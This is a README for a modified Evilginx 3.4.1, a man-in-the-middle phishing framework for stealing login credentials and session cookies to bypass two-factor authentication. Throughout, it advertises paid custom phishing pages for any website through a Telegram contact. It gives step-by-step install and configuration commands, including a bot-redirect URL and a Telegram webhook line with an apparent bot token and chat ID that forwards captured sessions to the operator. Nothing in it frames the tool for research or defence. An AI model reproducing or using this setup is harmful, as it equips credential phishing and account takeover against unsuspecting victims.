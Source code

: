 <p align="center">
  <img alt="Evilginx2 Logo" src="https://raw.githubusercontent.com/kgretzky/evilginx2/master/media/img/evilginx2-logo-512.png" height="160" />
  <p align="center">
    <img alt="Evilginx2 Title" src="https://raw.githubusercontent.com/kgretzky/evilginx2/master/media/img/evilginx2-title-black-512.png" height="60" />
  </p>
</p>

# Latest Evilginx 3.4.1 - Modified by @HosterMSG


Incase u want more phishlets let me know we can do any website u want without any upfront payments.
We provide 4 free test before any kind a payment.
https://t.me/HosterMSG



ABOUT NEW UPDATES PLEASE READ CHANGELOGS FILE !
THANKS !



**Evilginx** is a man-in-the-middle attack framework used for phishing login credentials along with session cookies, which in turn allows to bypass 2-factor authentication protection.


How to install ?

On Ubuntu:

1. git clone https://github.com/EvilHoster/EvilGinx2-3.4.1-Modification
2. cd evilginx-3.4.0-telegram-modification
3. unzip evilhoster.zip
4. cd evilhoster
5. cd build
6. chmod +rwx evilginx
7. ./evilginx -p ../phishlets/

Setup your configuration.

1. config domain something.com
2. cofig ipv4 external serverip
3. config ipv4 bind serverip
4. config unauth_url https://bots.here.redirected.com/
5. config autocert off/on

[ if ON free certificates is used, it can rate-limit your domain if u ask too much. ]
[ If OFF 
- Feature: Added support to load custom TLS certificates from a public certificate file and a private key file stored in `~/.evilginx/crt/sites/<hostname>/`. Will load `fullchain.pem` and `privkey.pem` pair or a combination of a `.pem`/`.crt` (public certificate) and a `.key` (private key) file. Make sure to run without `-developer` flag and disable autocert retrieval with `config autocert off`.
}


6.config webhook_telegram 7192062302:AAGvU9P57FF37gz-ZRUuonESXwvStiQV58Y/-15604540645

7192062302:AAGvU9P57FF37gz-ZRUuonESXwvStiQV58Y is a Token from Bot Father.
-15604540645 is a Chat ID inside your group.

Add to your Telegram group https://t.me/raw_data_bot and your Group Chat ID will be displayed.







## Help

In case you want to learn how to install and use **Evilginx**, please refer to online documentation available at:

https://help.evilginx.com


This tool is a successor to [Evilginx](https://github.com/kgretzky/evilginx), released in 2017, but i did modification in 2024.04.02 which used a custom version of nginx HTTP server to provide man-in-the-middle functionality to act as a proxy between a browser and phished website.
Present version is fully written in GO as a standalone application, which implements its own HTTP and DNS server, making it extremely easy to set up and use.
